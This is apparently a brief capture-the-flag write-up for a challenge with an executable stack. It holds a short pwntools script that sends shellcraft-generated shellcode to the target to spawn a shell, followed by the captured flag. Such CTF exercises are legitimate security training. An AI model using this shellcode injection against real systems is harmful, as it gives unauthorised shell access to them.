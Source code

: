 # Proof of Concept

## TL;DR

- Executable stack enabled — inject shellcode (Shellcraft/Shellstorm) to spawn a shell.

```python
r = conn()

pay = asm(shellcraft.sh())

r.sendline(pay)

r.interactive()
```

### Flag:

> HCS{sh3llc0de_us1ng_sh3llcraft_4nd_sh3llstorm}
